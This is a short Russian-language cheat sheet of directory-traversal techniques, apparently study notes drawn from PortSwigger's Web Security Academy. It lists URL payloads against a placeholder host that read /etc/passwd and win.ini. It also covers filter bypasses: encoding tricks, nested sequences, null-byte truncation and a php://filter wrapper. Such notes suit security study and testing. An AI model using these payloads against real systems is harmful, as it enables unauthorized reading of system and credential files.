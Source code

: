 [Directory traversal](https://portswigger.net/web-security/file-path-traversal)

## Чтение произвольных файлов через обход каталога
Unix-based:

	`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

Windows:

	`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`
## Общие препятствия для использования уязвимостей обхода путей к файлам
Использование абсолютной пути:

	`https://insecure-website.com/loadImage?filename=/etc/passwd`

Использование вложенных последовательностей, например, ....// или ....\\/:

	`https://insecure-website.com/loadImage?filename=....//....//....//etc/passwd`

Обход путем кодирования URL:

	`../ == %2e%2e%2f`

или двойного кодирования URL:

	`../ == %252e%252e%252f`

Различные нестандартные кодировки, такие как `..%c0%af` или `..%ef%bc%8f`, также могут сработать.

Если приложение требует, чтобы имя файла, начиналось с ожидаемой базовой папки, например, `/var/www/images`, то можно включить требуемую базовую папку, за которой следуют подходящие последовательности:

	`https://insecure-website.com/loadImage?filename=/var/www/images/../../../etc/passwd`

Если приложение требует, чтобы имя файла, предоставляемое пользователем, заканчивалось ожидаемым расширением файла, например `.png`, то можно использовать нулевой байт (`%00`), чтобы обрезать путь к файлу перед требуемым расширением:

	`https://insecure-website.com/loadImage?filename=../../../etc/passwd%00.png`
	`image.php?img=php://filter/convert.base64-encode/resource=index.php`

